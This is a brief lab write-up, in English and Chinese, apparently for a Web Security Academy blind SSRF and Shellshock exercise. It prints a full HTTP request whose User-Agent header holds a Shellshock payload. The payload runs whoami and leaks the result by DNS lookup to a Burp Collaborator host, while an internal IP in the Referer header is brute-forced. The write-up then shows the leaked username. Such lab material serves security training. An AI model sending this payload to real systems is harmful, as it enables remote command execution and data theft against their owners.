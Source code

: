 POC:

```http
GET /product?productId=1 HTTP/1.1
Host: ac451f611e2f180680dc0fde006f0009.web-security-academy.net
Connection: close
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: () { :; };/usr/bin/nslookup $(whoami).5gmbmv7dygwymmxy7nst3xw3iuokc9.burpcollaborator.net
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://192.168.0.§§:8080
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: session=BXkvBYF57oEas0Gxb5s5plYApdG3RFSC
```

这里进行爆破。

得到了结果：`peter-760cz5.5gmbmv7dygwymmxy7nst3xw3iuokc9.burpcollaborator.net.`

